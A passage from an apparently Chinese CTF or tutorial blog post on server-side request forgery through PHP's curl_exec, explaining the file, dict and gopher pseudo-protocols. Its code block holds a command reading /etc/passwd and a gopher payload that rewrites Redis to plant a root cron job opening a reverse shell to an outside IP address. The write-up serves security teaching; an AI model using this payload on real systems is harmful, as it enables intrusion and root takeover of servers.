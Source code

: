我们将url 设置为 www.baidu.com 即可



<img src="https://i-blog.csdnimg.cn/blog_migrate/9bfd9f3dc48105cb775c0d8b967ed6e0.png" alt="" style="max-height:702px; box-sizing:content-box;" />


但是 curl_exec 的危害不止这么一点 我们可以通过其他方式提高 curl_exec的危害

##### 提高危害

```dart
file dict gopher
 
curl -vvv 'dict://127.0.0.1:6379/info' 
curl -vvv 'file:///etc/passwd' 
# * 注意: 链接使用单引号，避免$变量问题 
curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/103.21.140.84/6789 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a'
```

### 利用的伪协议

#### file

最简单就是file伪协议 读取文件



<img src="https://i-blog.csdnimg.cn/blog_migrate/ee921811b21a54085129704fab4d5120.png" alt="" style="max-height:210px; box-sizing:content-box;" />


ssrf 我们可以通过file协议来读取文件

#### dict

泄露安装软件版本信息，查看端口，操作内网redis服务等

#### gopher

gopher支持发出GET、POST请求：可以先截获get请求包和post请求包，再构造成符合gopher协议的请求。gopher协议是ssrf利用中一个最强大的协议(俗称万能协议)。可用于反弹shell



## 内网访问

首先提示了



<img src="https://i-blog.csdnimg.cn/blog_migrate/0affd7fd6bd81d535b104d907450e257.png" alt="" style="max-height:277px; box-sizing:content-box;" />


我们既然是ssrf  那么我们就需要通过web服务器访问
